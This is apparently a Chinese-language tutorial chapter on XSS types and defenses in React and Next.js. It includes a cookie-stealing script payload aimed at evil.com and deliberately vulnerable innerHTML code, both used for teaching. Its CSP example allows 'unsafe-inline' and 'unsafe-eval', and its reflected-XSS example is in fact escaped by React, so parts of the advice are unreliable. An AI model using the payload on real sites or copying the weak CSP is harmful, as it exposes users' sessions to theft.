

# 6.3.3 腳本別跑野路子：XSS 攻擊

## 本質還原

XSS（Cross-Site Scripting）的本質是：**攻擊者想辦法讓你的網頁執行他寫的 JavaScript 代碼**。一旦成功，他就能竊取用戶 Cookie、劫持會話、甚至控制用戶賬戶。



## 三種 XSS 類型

### 1. 反射型 XSS

惡意腳本通過 URL 參數"反射"到頁面上。用戶點擊惡意鏈接後中招。

```typescript
// ❌ 危險：直接將 URL 參數插入頁面
// URL: /search?q=<script>alert('XSS')</script>
export default function SearchPage({ searchParams }) {
  return <div>搜索結果：{searchParams.q}</div>
}
```

### 2. 存儲型 XSS

惡意腳本被存入數據庫，所有訪問該內容的用戶都會中招。這是最危險的類型。

```typescript
// ❌ 危險：用戶評論直接渲染
// 攻擊者提交評論：<script>document.location='http://evil.com/steal?cookie='+document.cookie</script>
export default function Comments({ comments }) {
  return (
    <div>
      {comments.map(c => (
        <div dangerouslySetInnerHTML={{ __html: c.content }} />
      ))}
    </div>
  )
}
```

### 3. DOM 型 XSS

惡意腳本通過修改頁面 DOM 結構注入，完全在客戶端發生。

```typescript
// ❌ 危險：直接操作 innerHTML
useEffect(() => {
  const hash = window.location.hash.slice(1)
  document.getElementById('content').innerHTML = decodeURIComponent(hash)
}, [])
```

## 防護策略

### 策略一：輸出編碼

React 默認會對內容進行 HTML 轉義，這是最重要的防線：

```tsx
// ✅ 安全：React 自動轉義
function SafeComponent({ userInput }) {
  return <div>{userInput}</div>  // <script> 會被轉義爲 &lt;script&gt;
}

// ❌ 危險：繞過 React 的保護
function DangerousComponent({ userInput }) {
  return <div dangerouslySetInnerHTML={{ __html: userInput }} />
}
```

### 策略二：輸入驗證

在數據入庫前進行嚴格驗證：

```typescript
import { z } from 'zod'
import DOMPurify from 'isomorphic-dompurify'

// 方案一：嚴格限制格式
const CommentSchema = z.object({
  content: z.string()
    .min(1)
    .max(1000)
    .regex(/^[^<>]*$/),  // 禁止尖括號
})

// 方案二：清理 HTML（如果需要支持富文本）
function sanitizeHtml(dirty: string) {
  return DOMPurify.sanitize(dirty, {
    ALLOWED_TAGS: ['b', 'i', 'em', 'strong', 'a', 'p', 'br'],
    ALLOWED_ATTR: ['href'],
  })
}
```

### 策略三：Content Security Policy

CSP 是最後一道防線，限制頁面能執行的腳本來源：

```typescript
// next.config.js
const cspHeader = `
  default-src 'self';
  script-src 'self' 'unsafe-inline' 'unsafe-eval';
  style-src 'self' 'unsafe-inline';
  img-src 'self' blob: data:;
  font-src 'self';
  object-src 'none';
  base-uri 'self';
  form-action 'self';
  frame-ancestors 'none';
`

module.exports = {
  async headers() {
    return [
      {
        source: '/(.*)',
        headers: [
          {
            key: 'Content-Security-Policy',
            value: cspHeader.replace(/\n/g, ''),
          },
        ],
      },
    ]
  },
}
```

## 實戰：安全的富文本編輯

如果業務確實需要富文本，使用專業的清理庫：

```typescript
// lib/sanitize.ts
import DOMPurify from 'isomorphic-dompurify'

const config = {
  ALLOWED_TAGS: [
    'h1', 'h2', 'h3', 'p', 'br', 'ul', 'ol', 'li',
    'strong', 'em', 'a', 'img', 'blockquote', 'code', 'pre'
  ],
  ALLOWED_ATTR: ['href', 'src', 'alt', 'title', 'class'],
  ALLOW_DATA_ATTR: false,
  ADD_TAGS: [],
  ADD_ATTR: ['target'],  // 允許鏈接在新標籤頁打開
}

export function sanitize(dirty: string): string {
  // 添加 target="_blank" 和 rel="noopener"
  DOMPurify.addHook('afterSanitizeAttributes', (node) => {
    if (node.tagName === 'A') {
      node.setAttribute('target', '_blank')
      node.setAttribute('rel', 'noopener noreferrer')
    }
  })
  
  return DOMPurify.sanitize(dirty, config)
}
```

```tsx
// 組件中安全使用
function RichTextDisplay({ html }) {
  const safeHtml = sanitize(html)
  return <div dangerouslySetInnerHTML={{ __html: safeHtml }} />
}
```

## 審查 AI 生成代碼的檢查點

::: danger XSS 防護清單
1. [ ] 永遠不要直接使用 `dangerouslySetInnerHTML`
2. [ ] 永遠不要使用 `eval()` 或 `new Function()`
3. [ ] URL 參數必須驗證和轉義後再使用
4. [ ] 用戶輸入存入數據庫前必須驗證
5. [ ] 如需渲染 HTML，必須使用 DOMPurify 清理
6. [ ] 配置 Content-Security-Policy 響應頭
:::
